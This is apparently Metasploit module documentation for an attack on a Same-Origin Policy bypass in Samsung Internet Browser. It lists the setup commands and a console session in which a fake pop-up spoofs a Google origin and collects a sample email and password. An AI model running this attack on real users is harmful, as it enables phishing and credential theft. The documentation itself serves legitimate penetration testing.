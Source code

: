 ## Description
This module takes advantage of a Same-Origin Policy (SOP) bypass vulnerability in the Samsung Internet Browser, a popular mobile browser shipping with Samsung Android devices.
By default, it initiates a redirect to a child tab, and rewrites the innerHTML to gather credentials via a fake pop-up and the gather credentials is stored in `creds`

## Vulnerable Application
This Modules was tested on Samsung Internet Browser 5.4.02.3 during development of this module.

## Verification Steps
1. Start `msfconsole -q`
2. `use auxiliary/gather/samsung_browser_sop_bypass`
3. `set SRVHOST`
4. `set SRVPORT`
5. `set URIPATH`
6. `set TARGET_URL`
5. `run`

## Scenarios
```
$ sudo msfconsole -q 
msf > use auxiliary/gather/samsung_browser_sop_bypass 
msf auxiliary(samsung_browser_sop_bypass) > set SRVHOST 192.168.1.104
SRVHOST => 192.168.1.104
msf auxiliary(samsung_browser_sop_bypass) > set SRVPORT 9090
SRVPORT => 9090
msf auxiliary(samsung_browser_sop_bypass) > set URIPATH /
URIPATH => /
msf auxiliary(samsung_browser_sop_bypass) > set TARGET_URL https://www.google.com/csi
TARGET_URL => https://www.google.com/csi
msf auxiliary(samsung_browser_sop_bypass) > run
[*] Auxiliary module execution completed
msf auxiliary(samsung_browser_sop_bypass) > 
[*] Using URL: http://192.168.1.104:9090/
[*] Server started.
[*] 192.168.1.101: Request 'GET /'
[*] 192.168.1.101: Attempting to spoof origin for https://www.google.com/csi
[*] 192.168.1.101: Request 'GET /favicon.ico'
[*] 192.168.1.101: Attempting to spoof origin for https://www.google.com/csi
[*] 192.168.1.101: Request 'GET /favicon.ico'
[*] 192.168.1.101: Attempting to spoof origin for https://www.google.com/csi
[+] 192.168.1.101: Collected credential for 'https://www.google.com/csi' emailID:MyStrongPassword

msf auxiliary(samsung_browser_sop_bypass) > creds 
Credentials
===========

host            origin          service          public          private                                                            realm                       private_type
----            ------          -------          ------          -------                                                            -----                       ------------
                                                 emailID         MyStrongPassword                                                   https://www.google.com/csi  Password

msf auxiliary(samsung_browser_sop_bypass) > 
```

## Demos

Working of MSF Module: `https://youtu.be/ulU98cWVhoI` 

Vulnerable Browser: `https://youtu.be/lpkbogxJXnw`
